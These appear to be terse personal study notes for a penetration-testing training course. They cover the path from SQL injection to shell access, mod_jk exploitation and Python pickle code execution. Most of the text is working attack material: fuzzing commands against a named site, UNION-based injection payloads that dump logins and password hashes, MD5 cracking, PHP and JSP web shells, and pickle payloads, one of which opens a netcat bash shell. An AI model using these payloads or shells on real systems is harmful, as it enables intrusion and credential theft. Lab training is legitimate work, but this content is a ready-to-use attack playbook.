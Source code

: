 ## PTL Yellow Random Notes

#### From SQL Injection to Shell

- telnet vulnerable 80

```
GET / HTTP/1.1
Host: vulnerable 
```

- openssl s_client -connect vulnerable:443
- Burp suite proxy

- sudo apt update
- sudo apt install python3-pip
- sudo apt install libcurl4-openssl-dev libssl-dev
- pip install wfuzz
- vim .bashrc
- export PATH="/home/goenix/.local/bin:$PATH"
- wfuzz -c -z file,wordlist/general/big.txt --hc 404 https://pelotascore.com/FUZZ
- wfuzz -z file -f commons.txt --hc 404 http:pelotascore.com/FUZZ.php

- ORDER BY 3
- /cat.php?id=2+union+select+1,2,3,4--
- Oracle: UNION SELECT null,null,null FROM dual
- Other DBs: Oracle: UNION SELECT null,null,null
- /cat.php?id=2+union+select+id,login,password,id+from+users--

- /cat.php?id=1%20UNION%20SELECT%201,@@version,3,4
- /cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4
- /cat.php?id=1%20UNION%20SELECT%201,database(),3,4

- /cat.php?id=1%20UNION%20SELECT%201,concat(table_name,':',column_name),3,4%20FROM%20information_schema.columns
- /cat.php?id=1%20UNION%20SELECT%201,concat(login,':',password),3,4%20FROM%20users

- admin:8efe310f9ab3efeae8d410a8e0166eb2 => Search engine to crack the MD5 password =>admin:P4ssw0rd
- John The Ripper => $ ./john password --format=raw-md5  --wordlist=dico --rules

- Upload a web shell =>

```
<?php
  system($_GET['cmd']);
?>
```

- /admin/uploads/shell.php3?c=cat /etc/passwd

##### CVE-2007-1860: mod_jk double-decoding

- /examples/jsp/%252e%252e/%252e%252e/manager/html

###### index.jsp
```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

- jar -cvf ../webshell.war *
- Select WAR file to upload and take care of the double-encoding trick in the uplaod form
- Pay attention to tomcat CSRF protection/cookies

#### Pickle Code Execution

- sudo apt install python2
- ls /usr/bin/python*
- sudo update-alternatives --list python

###### hack.py
```
import cPickle
class Hack:
  def __init__(self):
    self.test1 = "test"  
    self.test2 = "retest"  
 
h = Hack()
print cPickle.dumps(h)
```

- python2 hack.py

###### blah.py
```
import cPickle
class Blah(object):
  def __reduce__(self):
    return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
b = Blah()
print cPickle.dumps(b)
```

- python2 blah.py | base64
 
###### score.py
```
import cPickle
class Blah(object):
  def __reduce__(self):
    return (os.system,("/usr/local/bin/score 39c0b5b5-3dab-4d9b-a685-27503157e66f",))
b = Blah()
print cPickle.dumps(b)
```

- python2 score.py | base64
- on windows => ubprocess with __import__
- Always concentrate more on custom code!
 
1. root domains dump them to a public repos
2. find every possible subdomain amass sublister
3. LiveTargetFinder massdns masscann nmap  
4. Wayback machine tomnomnom 






